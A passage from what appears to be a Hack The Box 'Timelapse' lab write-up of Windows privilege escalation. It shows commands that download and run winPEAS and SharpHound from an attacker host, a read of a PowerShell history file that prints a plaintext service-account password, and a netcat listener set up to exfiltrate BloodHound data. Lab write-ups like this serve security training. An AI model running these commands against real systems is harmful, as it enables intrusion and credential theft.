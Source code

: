 #### Download and run `winPEASx64.exe`
`ConsoleHost_history.txt` PS history file has been located.
```
*Evil-WinRM* PS C:\Users\legacyy\Documents> wget http://10.10.14.161:8000/winPEASx64.exe -out winPEASx64.exe; ./winPEASx64.exe
<SNIP>
    PS history file: C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
<SNIP>
```

#### Discover credentials for user `svc_deploy` in `ConsoleHost_history.txt` file
```
*Evil-WinRM* PS C:\Users\legacyy\downloads> cat C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

### Escalate to `Administrator` user using credentials read from `ms-Mcs-AdmPwd` attribute

#### Host `SharpHound`
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ python3 -m http.server --directory ~/Tools/SharpHound/Releases
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Download, extract and run `SharpHound`
```
*Evil-WinRM* PS C:\Users\legacyy\Documents> wget http://10.10.14.161:8000/sharphound-v2.6.5.zip -out sharphound-v2.6.5.zip
*Evil-WinRM* PS C:\Users\legacyy\Documents> Expand-Archive -Path sharphound-v2.6.5.zip -DestinationPath sharphound-v2.6.5
*Evil-WinRM* PS C:\Users\legacyy\Documents> ./sharphound-v2.6.5/SharpHound.exe
<SNIP>
2025-06-03T19:04:40.8092013-07:00|INFORMATION|SharpHound Enumeration Completed at 7:04 PM on 6/3/2025! Happy Graphing!
```

#### Start `netcat` to exfiltrate Bloodhound data
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ nc -lvp 8000 > bloodhound.zip
listening on [any] 8000 ...
```

